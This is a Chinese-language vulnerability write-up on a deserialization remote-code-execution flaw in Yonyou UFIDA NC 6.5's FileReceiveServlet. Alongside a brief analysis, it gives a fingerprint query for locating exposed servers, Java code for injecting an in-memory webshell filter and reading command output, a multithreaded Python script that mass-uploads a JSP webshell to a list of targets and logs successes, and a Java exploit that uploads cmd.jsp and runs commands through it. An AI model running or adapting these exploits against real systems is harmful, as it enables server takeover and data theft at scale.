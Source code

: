 # 用友 NC FileReceiveServlet 反序列化RCE漏洞

## 漏洞描述

用友NC 存在反序列化 RCE漏洞，攻击者可利用控制服务器

## 漏洞影响

```
用友NC 6.5
```

## 网络测绘

```
app="用友-UFIDA-NC"
```

## 漏洞复现

首先从任意文件上传说起

任意文件上传分析代码在`servlet.FileReceiveServlet`。在这里我们可以看到，从请求中读取流，然后转换为map类型并读取上传文件的路径。然后再读取待上传的文件。

![yongyou-5-1](./images/yongyou-5-1.png)

而网上很多poc，大多都是基于此漏洞，利用反序列化上传一个文件到服务器。

这也就是去年的那个任意文件上传的反序列化漏洞。但是，但是，这个漏洞本质是一个反序列化漏洞。而且某C的classpath中，也存在apache commonscollections库，我们可以利用这个库，直接执行命令或者内存马。岂不是比任意文件上传舒服多了。

**内存马**

老样子，在反序列化中想执行任意代码，一般都依靠xalan这个库。这次也不例外。

植入内存马，关键在于我们怎样找到context，只有找到context，我们才可以添加filter。好在某c中，我们只需要通过下面的代码既可以获取当前context，不需要从tomcat中获取context

```java
 Object obj = 改动Locator.getInstance().lookup("ServletContext");
        Field contextField = obj.getClass().getDeclaredField("context");
        contextField.setAccessible(true);
        obj = contextField.get(obj);
        Field contextField1 = obj.getClass().getDeclaredField("context");
        contextField1.setAccessible(true);
        addFitlertoTomcat(contextField1.get(obj));
```

剩下的就是常规操作，可以看我之前的内存马模型，基本不需要很大的改动即可完美适配。

![yongyou-5-2](./images/yongyou-5-2.png)

**回显**

我们只需要找到这样一个servlet，即存在反序列化的readObject，又将错误信息写入到response中

不难看出 uploadServlet 就很满足这个需求。

```plain
out = new ObjectOutputStream(output);
            in = new ObjectInputStream(request.getInputStream());
            String dsName = (String)in.readObject();
            }
        } catch (Exception var14) {
            var14.printStackTrace();
            if (out == null) {
                throw new ServletException(var14);
            }

            out.writeObject(var14);
```

如果出错的话，将错误信息通过序列化写入到response中。好处在于，我们不需要麻烦的去找tomcat的response对象。

所以，我们将反序列化的payload，发送给uploadServlet即可。然后我们只需要读取响应，即可拿到服务器命令执行的回显结果。客户端代码可以这样写

```java
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(r));
        Exception e = (Exception) objectInputStream.readObject();
        Object obj = e.getCause();
        Field targetF = obj.getClass().getDeclaredField("target");
        targetF.setAccessible(true);
        obj = targetF.get(obj);
        Field msgF = obj.getClass().getSuperclass().getDeclaredField("detailMessage");
        msgF.setAccessible(true);
        String msg = msgF.get(obj).toString();
        System.out.println(msg);
```

### 文件上传EXP

python exp：

```
import requests
import threadpool
import urllib3
import sys
import argparse

urllib3.disable_warnings()
proxies = {'http': 'http://localhost:8080', 'https': 'http://localhost:8080'}
header = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "https://google.com",
}

def multithreading(funcname, filename="url.txt", pools=5):
    works = []
    with open(filename, "r") as f:
        for i in f:
            func_params = [i.rstrip("\n")]
            works.append((func_params, None))
    pool = threadpool.ThreadPool(pools)
    reqs = threadpool.makeRequests(funcname, works)
    [pool.putRequest(req) for req in reqs]
    pool.wait()

def wirte_targets(vurl, filename):
    with open(filename, "a+") as f:
        f.write(vurl + "\n")
        return vurl
    
def exp(u):
    uploadHeader = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Content-Type": "multipart/form-data;",
        "Referer": "https://google.com"
    }
    uploadData = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x02\x74\x00\x09\x46\x49\x4c\x45\x5f\x4e\x41\x4d\x45\x74\x00\x09\x74\x30\x30\x6c\x73\x2e\x6a\x73\x70\x74\x00\x10\x54\x41\x52\x47\x45\x54\x5f\x46\x49\x4c\x45\x5f\x50\x41\x54\x48\x74\x00\x10\x2e\x2f\x77\x65\x62\x61\x70\x70\x73\x2f\x6e\x63\x5f\x77\x65\x62\x78"
    shellFlag="t0test0ls"
    uploadData+=shellFlag
    try:
        req1 = requests.post(u + "/servlet/FileReceiveServlet", headers=uploadHeader, verify=False, data=uploadData, timeout=25)
        if req1.status_code == 200 :
            req3=requests.get(u+"/t00ls.jsp",headers=header, verify=False, timeout=25)

            if  req3.text.index(shellFlag)>=0:
                printFlag = "[Getshell]" + u+"/t00ls.jsp"  + "\n"
                print (printFlag)
                wirte_targets(printFlag, "vuln.txt")
    except :
        pass
    #print(printFlag, end="")


if __name__ == "__main__":
    if (len(sys.argv)) < 2:
        print('useage : python' +str(sys.argv[0]) + ' -h')
    else:
        parser =argparse.ArgumentParser()
        parser.description ='YONYOU UC 6.5 FILE UPLOAD!'
        parser.add_argument('-u',help="url -> example http://127.0.0.1",type=str,dest='check_url')
        parser.add_argument('-r',help="url list to file",type=str,dest='check_file')
        args =parser.parse_args()
        if args.check_url:
            exp(args.check_url)
        
        if(args.check_file):
            multithreading(exp, args.check_file, 8) 
```

java exp：

```
import java.io.*;
import java.util.HashMap;
import java.util.Map;

public class App {
    public static void main(String[] args) throws Exception {
        String url="http://192.168.40.222";
        Map<String, Object> metaInfo=new HashMap<String, Object>();
        metaInfo.put("TARGET_FILE_PATH","webapps/nc_web");
        metaInfo.put("FILE_NAME","cmd.jsp");
        ByteArrayOutputStream baos=new ByteArrayOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(metaInfo);
        InputStream in=App.class.getResourceAsStream("cmd.jsp");
        byte[] buf=new byte[1024];
        int len=0;
        while ((len=in.read(buf))!=-1){
            baos.write(buf,0,len);
        }
        HttpClient.post(url+"/servlet/FileReceiveServlet",baos.toByteArray());
        HttpResult result=HttpClient.get(url+"/cmd.jsp?cmd=echo+aaaaaa");
        if(result.getData().contains("aaaaaa")){
            System.out.println("shell路径:"+url+"/cmd.jsp?cmd=whoami");
        }else{
            System.out.println("上传shell失败或者漏洞不存在");
        }
    }
}
```

## 参考文章

https://mp.weixin.qq.com/s/IdXYbjNVGVIasuwQH48Q1w